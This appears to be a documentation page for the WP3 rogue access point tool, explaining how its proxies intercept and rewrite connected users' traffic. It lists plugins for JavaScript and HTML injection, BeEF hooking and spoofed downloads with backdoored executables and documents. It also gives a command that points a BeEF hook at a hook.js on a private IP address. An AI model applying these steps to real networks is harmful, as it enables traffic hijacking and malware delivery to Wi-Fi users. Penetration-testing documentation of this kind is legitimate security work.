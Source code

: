 ```yaml
---
title: 'Proxies'
description: 'How proxies feature works.'
icon: "terminal"
---
```



The proxies are designed to add features to WP3 core and run parallel with access point (AP),
but redirect all traffic with `iptables`. Proxies work by intercepting a request, modifying the request if necessary, then handling or forwarding the request to its destination. When a user connects to a AP, the transparent proxy intercepts the request before passing it on to the provider.  

<Info title="Proxy Limitation">
Only one proxy can be run at a time, as each proxy is designed to **manipulate and redirect data packets** through a specific port.
</Info>

Avaliable proxies:

- **pumpkinproxy** - Proxy for intercept network traffic on TCP protocol [doc](#pumpkinproxy)
- **captiveflask** - Allow block Internet access for users until they open the page login page. [doc](#captiveflask)
- **noproxy** - Runnning without proxy redirect traffic

The basic command guidelines to get a plugins are:

if you want to select the proxy, follow command bellow. 
```bash
wp3 > set proxy proxy_name
```

if the proxy has plugins, when type `proxies` you see somes options for set. you can to enable/disable plugin command, type `tab` to autocomplete ;): 
```bash
wp3 > set proxy_name.plugin_name true/false
```

The example above is for enable/disable a plugin, but you can use same sintax to configure plugin paramenter. you can see this paramenter typing `info proxy_name` or using type like this example bellow, using `tab` to autocomplete.

```bash
wp3 > set pumpkinproxy.
pumpkinproxy.beef                            pumpkinproxy.html_inject
pumpkinproxy.beef.url_hook                   pumpkinproxy.html_inject.content_path
pumpkinproxy.downloadspoof                   pumpkinproxy.js_inject
pumpkinproxy.downloadspoof.backdoorExePath   pumpkinproxy.js_inject.url
pumpkinproxy.downloadspoof.backdoorPDFpath   pumpkinproxy.no-cache
pumpkinproxy.downloadspoof.backdoorWORDpath  pumpkinproxy.replaceImages
pumpkinproxy.downloadspoof.backdoorXLSpath   pumpkinproxy.replaceImages.path
wp3 > set pumpkinproxy.
```

let now set `url_hook` parameter the plugin beef to inject javascript in all request http.

```bash
wp3 > set pumpkinproxy.beef.url_hook http://172.16.149.141:3000/hook.js
```

Proxies developers and users are welcome to include your proxy into this project, take a look the guidelines [how to create a proxy](#development).